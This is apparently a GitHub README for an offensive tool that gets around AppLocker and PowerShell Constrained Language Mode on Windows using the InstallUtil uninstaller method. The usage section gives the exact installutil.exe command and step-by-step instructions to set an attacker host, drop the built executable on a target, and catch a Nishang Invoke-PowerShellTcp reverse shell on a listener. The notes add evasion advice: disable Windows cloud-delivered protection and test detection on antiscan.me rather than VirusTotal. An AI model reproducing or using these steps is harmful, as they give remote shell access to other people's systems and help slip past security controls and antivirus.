 ## Bypass for Applocker and Powershell Constrained Language Mode via InstallUtil Uninstaller Method to run Nishang Invoke-PowerShellTcp.ps1

----


## Usage

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
			
Steps

	1)Build the project after changing the ip (lhost , ip youre serving the shellcode from) and script name ("damn" , change the name to name of your Invoke-PowerShellTcp.ps1 instance )
	2)Transfer the build exe to the rhost 
	3)run the listener on lhost to the configured port on Invoke-PowerShellTcp.ps1 instance
	3)Run the executable using InstallUtil -  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
	4)Check on the lhost http server for a call back and your listener		
						
```

## Compile Instructions

This Project  has been built against .NET 4.0 x64 and is compatible with [Visual Studio 2019 Community Edition]. Simply open up the project .sln, choose "release", and build before the required changes
.

## Notes
* when testing on a windows machine , disable the "Cloud Delivered Protection" , Off
* Use https://antiscan.me/ instead of virus total if you wanna validate the signatures
* You could run any code to bypass Applocker and Powershell constrained language mode via "public class SharpUp : System.Configuration.Install.Installer" method change the "damn" script to the the powershell .ps1 script , you wanna run

## Shout Out

[nikhil_mitt](https://twitter.com/nikhil_mitt)

* https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1




